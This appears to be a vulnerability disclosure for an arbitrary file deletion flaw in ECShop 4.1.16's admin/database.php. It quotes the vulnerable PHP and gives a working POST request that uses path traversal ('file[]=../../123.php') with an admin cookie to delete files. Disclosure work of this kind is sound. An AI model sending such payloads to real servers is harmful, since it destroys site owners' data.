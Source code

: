 
#ECShop_v4.1.16 Arbitrary File Deletion Vulnerability

#####1. Affected version

```
 ECShop <= 4.1.16
```

#####2. Firmware download address

[https://www.ecshop.com/download](https://www.ecshop.com/download)

or the source directory and readme directory of this repository are ECShop_ Source code for v4.1.16

#####3. Vulnerability details

 Starting from line 266 of the file  source  on "\source\ecshop\admin\database.php".

```php
if ($_REQUEST['act'] == 'remove') {
    /* 权限判断 */
    admin_priv('db_backup');

    if (isset($_POST['file'])) {
        $m_file = array(); //多卷文件
        $s_file = array(); //单卷文件
        
        $path = ROOT_PATH . DATA_DIR . '/sqldata/';
        
        foreach ($_POST['file'] as $file) {
            if (preg_match('/_[0-9]+\.sql$/', $file)) {
                $m_file[] = substr($file, 0, strrpos($file, '_'));
            } else {
                $s_file[] = $file;
            }
        }

        if ($m_file) {
            $m_file = array_unique($m_file);

            /* 获取文件列表 */
            $real_file = array();

            $folder = opendir($path);
            while ($file = readdir($folder)) {
                if (preg_match('/_[0-9]+\.sql$/', $file) && is_file($path . $file)) {
                    $real_file[] = $file;
                }
            }

            foreach ($real_file as $file) {
                $short_file = substr($file, 0, strrpos($file, '_'));
                if (in_array($short_file, $m_file)) {
                    @unlink($path . $file);
                }
            }
        }

        if ($s_file) {
            foreach ($s_file as $file) {
                @unlink($path . $file);
            }
        }
    }

    sys_msg($_LANG['remove_success'], 0, array(array('text' => $_LANG['restore'], 'href' => 'database.php?act=restore')));
}
```

![image-20230722001551622](assets/image-20230722001551622.png)

We can find that for the file parameter passed in by POST, the $s_file variable is not filtered, and any file can be deleted by using directory splicing.

#####4. Vulnerability verification

First, in the \source\ecshop directory, create a file named 123.php to verify the vulnerability.

![image-20230722002201315](assets/image-20230722002201315.png)

Then we use the burpsuite tool to capture the packet and log in to the administrator account to obtain the administrator's cookie.

```
/admin/privilege.php?act=login
```

![image-20230722002726749](assets/image-20230722002726749.png)

Login successful:

![image-20230722002808484](assets/image-20230722002808484.png)

Copy the administrator's  cookie. 

![image-20230722002921130](assets/image-20230722002921130.png)

Then construct the exploit, fill in the administrator's cookie and your host.

```
POST /admin/database.php HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.0.0 Safari/537.36 Edg/111.0.1661.54
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: 
Upgrade-Insecure-Requests: 1
If-Modified-Since: Fri, 21 Jul 2023 13:53:04 GMT
Content-Type: application/x-www-form-urlencoded
Content-Length: 26

act=remove&file[]=../../123.php
```

Finally, send the constructed request packet.

![image-20230722003608753](assets/image-20230722003608753.png)

We can find that the 123.php file has been deleted.

![image-20230722003553849](assets/image-20230722003553849.png)
